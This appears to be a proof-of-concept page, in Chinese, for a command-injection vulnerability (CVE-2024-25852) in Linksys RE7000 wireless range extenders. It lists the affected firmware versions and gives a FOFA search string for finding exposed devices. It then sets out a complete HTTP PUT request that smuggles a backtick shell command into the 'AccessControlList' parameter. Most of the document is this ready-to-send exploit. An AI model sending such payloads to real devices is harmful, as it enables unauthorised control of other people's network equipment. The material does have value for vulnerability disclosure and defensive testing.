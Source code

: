 ## Linksys-RE7000无线扩展器命令执行漏洞(CVE-2024-25852)

RE7000无线扩展器在访问控制功能点的“AccessControlList”参数中存在命令执行漏洞。攻击者可以利用该漏洞获取设备管理员权限。

FOFA：body="/login.shtml?ran="
![image](https://github.com/user-attachments/assets/b550620d-d1a6-4606-aad2-7e480781fd01)
/login.shtml?ran=153121437983
## 受影响的版本：
```
RE7000 v2.0.9、RE7000 v2.0.11、RE7000 v2.0.15
```

## poc
```
PUT /goform/AccessControl HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Thu, 17 Sep 2020 11:24:58 GMT
If-None-Match: "14600429"
Content-Length: 81

{"AccessPolicy":"0","AccessControlList":"`ps>/etc_ro/lighttpd/RE7000_www/1.txt`"}
```

![0ed3036d6115e4c5d0da3f117cbe9a0b](https://github.com/wy876/POC/assets/139549762/ed9ceedd-1757-48a5-a03b-3cd9111a684c)

![93d68e665d74288cb215ebedd9d07040](https://github.com/wy876/POC/assets/139549762/2b99e04d-ca6a-4a8f-8332-cce7cadf4399)
